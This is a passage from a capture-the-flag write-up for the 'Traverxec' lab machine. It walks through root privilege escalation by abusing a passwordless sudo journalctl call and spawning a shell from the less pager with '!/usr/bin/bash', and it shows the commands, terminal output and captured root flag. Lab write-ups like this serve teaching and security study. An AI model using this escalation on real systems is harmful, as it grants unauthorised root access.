 
## Root Flag  
David's home directory has a directory within it called `/bin`, which sticks out immediately. Exploring that directory we find `server-stats.sh`. This file appears to use the sudo command, as seen on the last line below.

```
david@traverxec:~$ ls
bin  public_www  user.txt
david@traverxec:~/bin$ ls
journalctl  server-stats.head  server-stats.sh
david@traverxec:~/bin$ cat server-stats.sh
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat 
david@traverxec:~/bin$ 
```

Knowing that this script is calling `journalctl` as root means that it's most definitely going to be what we need to exploit for our privilege escalation. Looking at [GTFOBins](https://gtfobins.github.io/gtfobins/journalctl/) for `journalctl` it states that the pager will be invoked (`less`). We can pop a shell using `!/bin/sh`, or we can execute basically any commands we'd like if we precede them with `!`.

After some playing around we can confirm that executing `/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service` does not require us to enter a password, and does indeed invoke `less`. All we need to do in order to exploit this is to shrink the terminal window down a bit, under 6 lines, and execute `!/bin/bash` to get our root shell.

```
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Tue 2019-12-17 10:09:44 EST, end at Tue 2019-12-17 11:38:42 EST. --
Dec 17 11:15:54 traverxec sudo[2264]: pam_unix(sudo:auth): auth could not identify password for [www-data]
Dec 17 11:15:54 traverxec sudo[2264]: www-data : command not allowed ; TTY=unknown ; PWD=/usr/bin ; USER=root ; COMMAND=list
Dec 17 11:18:40 traverxec sudo[2319]: pam_unix(sudo:auth): conversation failed
Dec 17 11:18:40 traverxec sudo[2319]: pam_unix(sudo:auth): auth could not identify password for [www-data]
Dec 17 11:18:40 traverxec sudo[2319]: www-data : command not allowed ; TTY=unknown ; PWD=/usr/bin ; USER=root ; COMMAND=list
!/usr/bin/bash
root@traverxec:/home/david/bin# cat /root/root.txt
9aa36a6d76f785dfd320a478f6e0d906
root@traverxec:/home/david/bin# 
```
